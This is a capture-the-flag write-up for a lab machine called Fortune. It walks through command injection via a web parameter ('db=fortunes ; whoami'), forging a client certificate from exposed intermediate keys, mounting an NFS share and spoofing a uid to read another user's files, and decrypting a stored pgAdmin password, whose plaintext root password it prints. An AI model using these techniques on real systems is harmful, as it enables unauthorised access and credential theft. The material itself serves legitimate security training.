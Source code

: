 ![](./logo.png)

# USER

Website sends parameter to db and allows appending of commands

```
db=fortunes ; whoami
```

The binary seems to be run from the webpage
```
/usr/games/fortune
```

We find a directory of certificates using the intermediate certificates we can make a pk12 cert that user authenticates us for the ```https``` endpoint
```
openssl pkcs12 -export -inkey intermediate.key.pem -in intermediate.cert.pem -out intermediate.p12
```

This provides us with a page to create ssh certs

Page greets us with:

```
You will need to use the local authpf service to obtain elevated network access. 
If you do not already have the appropriate SSH key pair, then you will need to 
generate one and configure your local system appropriately to proceed.
```

This is a service that seems to allow traffic out a new nmap scan gives us:

```
$ ssh nfsuser@10.10.10.127

Nmap scan report for 10.10.10.127
Host is up (0.094s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 07:ca:21:f4:e0:d2:c6:9e:a8:f7:61:df:d7:ef:b1:f4 (RSA)
|   256 30:4b:25:47:17:84:af:60:e2:80:20:9d:fd:86:88:46 (ECDSA)
|_  256 93:56:4a:ee:87:9d:f6:5b:f9:d9:25:a6:d8:e0:08:7e (ED25519)
80/tcp   open  http       OpenBSD httpd
|_http-server-header: OpenBSD httpd
|_http-title: Fortune
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100003  2,3         2049/tcp  nfs
|   100003  2,3         2049/udp  nfs
|   100005  1,3          662/udp  mountd
|_  100005  1,3          939/tcp  mountd
443/tcp  open  ssl/https?
|_ssl-date: TLS randomness does not represent time
2049/tcp open  nfs        2-3 (RPC #100003)
8081/tcp open  http       OpenBSD httpd
|_http-server-header: OpenBSD httpd
|_http-title: pgadmin4

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.86 seconds
```

/etc/exports just has "home" in it?
it allows us to mount the home directory, this gives us write access in the nfsuser directory

```
sudo mount -t nfs 10.10.10.127:home /mnt
```

Note: adding a user called ```Charlie``` with the same ```uid``` allows us to view the contents of the NFS share

Can get the flag from Charlie's directory. 
By adding the key we received earlier we can get onto ssh with Charlie


# ROOT

/usr/local/pgadmin4
/usr/local/pgadmin4/.virtualenvs/pgadmin4
/var/appsrv/pgadmin4

Need to look at how the passwords are encrypted

```
from pgadmin.utils.crypto import encrypt, decrypt, pqencryptpassword
```

The password we need to decrypt:

```
utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz
```

The password is encrypted using AES with the password hash as the key

Using the python decrypt file we get:

```
R3us3-0f-a-P4ssw0rdl1k3th1s?_B4D.ID3A!
```

This lets us ssh as root and obtain the flag